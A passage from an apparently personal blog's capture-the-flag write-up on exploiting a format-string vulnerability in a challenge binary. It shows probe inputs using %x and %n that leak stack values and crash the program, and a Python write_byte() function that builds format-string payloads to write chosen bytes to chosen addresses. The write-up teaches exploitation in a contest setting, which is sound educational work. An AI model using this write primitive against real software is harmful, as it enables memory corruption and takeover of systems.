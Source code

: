 And, to finish it off, let's verify that there is indeed a format-string vulnerability there:

```

Coordinates: <span class="in">51.492137,-0.192878 %x %x %x</span>
51.492137, -0.192878
Coordinate 51.492137,-0.192878 58601366 4049befe ef0f16f4 is occupied by another TARDIS.  Materializing there would rip a hole in time and space. Choose again.

Coordinates: <span class="in">51.492137,-0.192878 %n</span>
51.492137, -0.192878
Segmentation fault
```

Yup! :)

## Part 4b: Format string exploit

I'm not going to spend any time explaining what a format string vulnerability is. If you aren't familiar, check out my [last blog](/2015/defcon-quals-babyecho-format-string-vulns-in-gory-detail).

Instead, we're going to look at how I exploited this one. :)

The cool thing about this is, as you can see in the last example, if you enter "collision" coordinates (ie, the ones that trigger the format string vulnerability), the function doesn't actually return, it just prompts again. The function doesn't return until you enter valid-looking coordinates (like 1,1).

That's really handy, because it means we can exploit it over and over before letting it return. Instead of the crazy math we had to do in the earlier level, we can just write one byte at a time. And speaking of the last level, I actually solved this level *before* babyecho, so I didn't have the handy format-string generator that I wrote.

### write\_byte()

I wrote a function in python that will write a single byte to a chosen address:

```
<pre id="vimCodeElement">
<span class="Statement">def</span> <span class="Identifier">write_byte</span>(addr, value):
    s = <span class="Constant">"51.492137,-0.192878 "</span> + struct.pack(<span class="Constant">"<I"</span>, addr)
    s += <span class="Constant">"%"</span> + <span class="Identifier">str</span>(value + <span class="Constant">256</span> - <span class="Constant">24</span>) + <span class="Constant">"x%20$n</span><span class="Special">\n</span><span class="Constant">"</span>

    <span class="Identifier">print</span> s
    sys.stdout.flush()
    sys.stdin.readline()
```

Basically, it uses the classic "AAAA%NNx%MM$n" string, which we saw a whole bunch in babyecho, where:

- AAAA = the address as a 4-byte string (which will be the address written to by the %n)
- NN = the number of bytes to waste to ensure that %n writes the proper value to AAAA (keeping in mind that the coordinates and address take up 24 bytes already)
- MM = the number of elements on the stack before the format string reads itself (we can figure that out by bruteforce then hardcode it)
